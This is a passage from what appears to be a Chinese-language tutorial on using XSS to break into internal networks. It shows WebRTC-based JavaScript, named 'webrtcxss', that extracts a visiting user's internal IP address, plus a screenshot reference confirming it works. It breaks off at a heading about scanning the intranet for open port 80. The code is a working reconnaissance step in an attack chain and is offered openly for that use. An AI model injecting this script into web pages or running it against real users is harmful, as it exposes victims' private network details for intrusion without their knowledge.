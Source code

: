 ## 0x03获取内网的IP信息：

详情请移步到：https://webrtc.org/faq/#what-is-webrtc
因为WebRTC让JavaScript具有了一定的底层操作方法，而由于WebRTC的特殊性，让我们可以使用JavaScript来获取到内网IP。目前WebRTC支持的平台有：Chrome、Firefox、Opera、Android、IOS。实际测试的时候maxthon也是支持的（此处有伏笔）。
WebRTC获取内网IP这段代码网上是可以找到的，而在这里需要修改一下。方便其他代码容易调用。
然后就是webrtc的代码了：
```javascript
var webrtcxss = {
    webrtc : function(callback){
        var ip_dups           = {};
        var RTCPeerConnection = window.RTCPeerConnection || window.mozRTCPeerConnection || window.webkitRTCPeerConnection;
        var mediaConstraints  = {
            optional: [{RtpDataChannels: true}]
        };
        var servers = undefined;
        if(window.webkitRTCPeerConnection){
            servers = {iceServers: []};
        }
        var pc = new RTCPeerConnection(servers, mediaConstraints);
        pc.onicecandidate = function(ice){
            if(ice.candidate){
                var ip_regex        = /([0-9]{1,3}(\.[0-9]{1,3}){3})/;
                var ip_addr         = ip_regex.exec(ice.candidate.candidate)[1];
                if(ip_dups[ip_addr] === undefined)
                callback(ip_addr);
                ip_dups[ip_addr] = true;
            }
        };
        pc.createDataChannel("");
        pc.createOffer(function(result){
            pc.setLocalDescription(result, function(){});
        });
    },
    getIp : function(){
        this.webrtc(function(ip){
            ipList.push(ip);
        });
    }
}
webrtcxss.getIp();
```
现在我们来打印一下看看：

![](/images/use-xss-automation-invade-intranet/1.png)

已经获取到了我当前主机的IP地址了。

## 0x04检测内网中开启了80端口的IP：
